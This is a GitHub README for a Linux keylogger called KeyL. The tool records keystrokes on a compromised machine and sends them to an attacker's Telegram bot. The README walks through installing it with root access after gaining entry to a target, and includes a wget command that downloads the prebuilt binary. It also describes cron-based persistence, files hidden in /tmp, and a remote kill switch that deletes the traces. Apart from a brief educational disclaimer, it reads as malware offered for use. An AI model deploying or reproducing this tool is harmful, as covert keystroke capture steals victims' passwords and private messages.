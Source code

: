 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the `/kill` command so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**, it has been created only with my mere knowledge. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail for stupid reasons it's dumb.

## How2UseIt

Once you gain access to the target machine, you have to options:
1. Inject and execute (with root priviledges) the `make.sh` file.
2. Create a root shell with `sudo su` paste and execute the content of `toBePasted.txt` .

But before you need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token (Mandatory)**  
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, it's easy stuff just ask ChatGPT.

2. **Customize Logger Behavior (Optional)**  
   If you're geek enough you can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install:
   By default, `make.sh` installs the static version hosted on GitHub:
   ```bash
   wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
   ```


### Important:
Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




